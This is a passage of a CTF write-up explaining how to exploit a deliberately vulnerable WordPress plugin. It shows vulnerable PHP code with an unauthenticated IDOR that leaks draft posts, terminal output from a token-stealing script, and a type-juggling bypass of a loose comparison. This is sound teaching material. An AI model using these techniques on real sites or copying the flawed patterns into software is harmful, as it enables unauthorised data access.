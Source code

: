 Uh, wait, the post status is draft. How can we read its content?

Fortunately for us, there's an AJAX action called `patchstack_scheduler_preview` is vulnerable to **IDOR (Insecure Direct Object Reference)**, where we can **obtain any posts' details even if it's status is private or draft**:

```php
class PatchstackSchedulerPro {
    [...]
    private function __construct() {
        [...]
        add_action('wp_ajax_nopriv_patchstack_scheduler_preview', array($this, 'handle_preview_request'));
        add_action('wp_ajax_patchstack_scheduler_preview', array($this, 'handle_preview_request'));
        [...]
    }
    [...]
    public function handle_preview_request() {
        $post_id = isset($_GET['post_id']) ? intval($_GET['post_id']) : 0;
        $post = get_post($post_id);
        [...]
        wp_send_json_success(array(
            'content' => $post->post_content,
            'title' => $post->post_title
        ));
    }
}
```

In callback method `handle_preview_request`, we can provide GET parameter `post_id` to read any posts, as it didn't validate the post's status.

With that said, we can write a simple Python script to get the API token via this vulnerable AJAX action!

<details><summary><strong>get_api_token.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Patchstack-Scheduler-Pro)-[2025.02.24|20:29:11(HKT)]
└> python3 get_api_token.py
[*] Trying post ID: 36
[+] API token: X1xyWiJlgs0uCvEyRwGfNLrTlpFas3mS
```

Nice! We got the API token in post ID 36! Which means we can pass the first validation!

Now, how about the second validation? Well, since it's using **loose comparison**, we can leverage **type jugging** to bypass the it!

Since loose comparison doesn't care about the data type, if JSON attribute `api_token` is a `true` boolean value, it'll compare integer `1` with integer `1` (`'not_an_empty_string'`), which returns boolean `true`:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Patchstack-Scheduler-Pro)-[2025.02.24|20:31:50(HKT)]
└> php -a                  
[...]
php > var_dump(true == 'not_an_empty_string');
bool(true)
```

